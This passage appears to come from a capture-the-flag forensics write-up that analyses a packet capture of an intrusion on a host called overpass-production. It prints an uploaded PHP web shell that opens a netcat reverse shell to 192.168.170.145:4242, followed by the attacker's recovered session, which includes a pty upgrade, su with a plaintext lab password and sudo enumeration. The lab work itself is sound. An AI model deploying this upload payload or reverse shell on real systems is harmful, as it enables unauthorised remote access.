 used netcat to connect shell to 192.168.170.145 IP and port 4242 and reverse shell command uses netcat, fortunately, netcat traffic is not encrypted so we can see it in plain text.

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--


in wireshark filter to tcp.port == 4242
since netcat is not encrypted, we can see all the details

/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
